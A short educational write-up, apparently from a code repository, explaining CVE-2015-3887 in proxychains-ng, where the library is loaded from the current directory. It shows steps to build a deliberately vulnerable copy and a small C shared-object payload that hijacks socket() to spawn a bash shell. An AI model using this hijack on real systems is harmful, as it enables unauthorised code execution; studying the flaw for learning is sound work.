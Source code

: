 # CVE-2015-3887

CVE-2015-3887,... we are dealing with a quite old exploit this time, but i wanted to take a look at the proxychains source code, to gain more programming knowledge.

After looking for a bit, i saw a `#define SUPER_SECURE` with a comment next to it saying "**CVE-2015-3887**", so i decided to look, and it seemed like a pretty cool exploit to me.

## Explanations

The exploit is fairly simple and straight forward, the program looks for `libproxychains4.so` in the **Current Path** of the program instead of looking in the default **libproxychains4.so** directory which is in **/usr/local/lib/libproxychains4.so**...

This means we can write any code we wan't on our target machine, compile the code into a shared object using the following flags, in the following example i compile a file called **payload.c** into a **libproxychains4.so** :

`gcc -shared -nostdlib -o libproxychains4.so payload.c`

Next we would need to put the compiled file into the same directory where the **proxychains** binary is being ran from (`which proxychains` or `which proxychains4`).

## Exploit demo

1. Compile the program **with the ignore_cve flag on**, so the program is vulnerable.

```bash
$ git clone https://github.com/rofl0r/proxychains-ng
$ cd proxychains-ng
$ vim configure (or nano if you prefer)

# find the "ignore_cve" field, and change it to "yes" (without quote marks), save and close the editor.

$ vim Makefile
$ :%/$(exec_prefix)/.
$ :%/$(prefix)/.        

# These 2 last commands will change every "$(prefix)" and "$(exec_prefix)" with ".", since we only want to build proxychains in our current directory.

$ ./configure
$ make && make install

# you should now have a compiled version of proxychains4 in the project directory (proxychains4-ng).
```

2. Write and Compile the exploit

We're going to do things pretty simply, we are first going to look at libproxychains4 functions and see which one we can potentially hijack.

After looking for a minute i see the socket function, i am 100% sure the program will use this function in his runtime so i will hijack this one.

Let's write the exploit :)

```c
#include <stdio.h>
#include <stdlib.h>

int socket(){
    system("/bin/bash");
    return 0;
}

```

Let's compile the exploit as a shared object

`gcc -shared -nostdlib -o libproxychains4.so payload.c`

3. Bypass the default libproxychains4.so using our exploit

Just put the newly compiled file inside the same directory as the proxychains binary, make sure the name of the shared object is **libproxychains4.so** and you should get a shell...






